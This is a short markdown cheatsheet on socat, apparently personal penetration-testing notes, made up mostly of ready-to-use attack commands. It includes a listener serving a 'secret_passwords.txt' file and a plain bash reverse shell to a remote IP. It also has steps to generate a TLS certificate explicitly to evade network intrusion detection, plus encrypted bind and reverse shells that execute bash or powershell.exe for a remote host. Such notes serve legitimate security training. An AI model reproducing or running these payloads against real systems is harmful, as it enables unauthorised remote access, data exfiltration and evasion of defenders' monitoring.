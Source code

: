 ```yaml
---
title: Socat
tags:
- cheatsheet
- snippet
- linux
---
```


Socat establishes two bidirectional byte streams and transfers data between them

???+ note
    Socat uses *ip*:*port* notation

General usage
```bash
socat <SRC> <DST>
```

Example for stdin/stdout to webserver
```bash
socat - TCP4:192.168.1.80:80
```

File transfer
```bash
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
```

Shell listener
```bash
socat -d -d TCP4-LISTEN:443 STDOUT
```

Shell payload
```bash
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```

## TLS Shell

Socat can use TLS to help evade network IDS.

Generate cert 
```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```
Enter random data for the cert
```bash
cat bind_shell.crt bind_shell.key > bind_shell.pem
```

### Bind Shell

Payload
```bash
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

Connect with
```bash
socat - OPENSSL:10.1.2.3:443,verify=0
```

### Reverse Shell

Listen with
```bash
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 -
```

Payload
```powershell
socat OPENSSL:192.168.119.154:443,verify=0 EXEC:'powershell.exe',pipes
```
